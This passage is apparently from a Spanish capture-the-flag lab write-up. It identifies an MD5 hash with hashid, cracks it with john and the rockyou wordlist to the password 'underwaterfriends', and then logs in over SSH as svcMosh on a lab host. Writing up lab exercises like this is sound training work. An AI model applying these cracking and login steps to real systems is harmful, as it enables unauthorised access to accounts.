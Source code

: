 Si intentamos identificar esta cadena en `hashes.com` o con `hashid` nos señala que es un hash MD5

~~~ bash
hashid 412DD4759978ACFCC81DEAB01B382403                                                                                                    
Analyzing '412DD4759978ACFCC81DEAB01B382403'
[+] MD2 
[+] MD5 
[+] MD4 
[+] Double MD5 
[+] LM 
[+] RIPEMD-128 
[+] Haval-128 
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 
[+] Skype 
[+] Snefru-128 
[+] NTLM 
[+] Domain Cached Credentials 
[+] Domain Cached Credentials 2 
[+] DNSSEC(NSEC3) 
[+] RAdmin v2.x 
~~~

Guardamos el hash en un archivo con nombre `hash.txt` y lo intentamos crackear con `john`

~~~ bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=Raw-MD5 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
underwaterfriends (?)     
1g 0:00:00:00 DONE (2025-05-04 16:16) 6.250g/s 18650Kp/s 18650Kc/s 18650KC/s undiamecaiQ..underpants2
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 
~~~

Logramos crackear el hash de forma bastante sencilla, la contraseña extraída es `underwaterfriends`


## Shell as `svcMosh`

Utilizaremos esta credencial para iniciar una conexión por el servicio `ssh` con el usuario `svcMosh`

~~~ bash
ssh svcMosh@10.10.11.48
svcMosh@10.10.11.48\'s password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun May  4 08:19:22 PM UTC 2025

  System load:  0.02              Processes:             239
  Usage of /:   62.1% of 6.56GB   Users logged in:       1
  Memory usage: 21%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%

Expanded Security Maintenance for Applications is not enabled.

~~~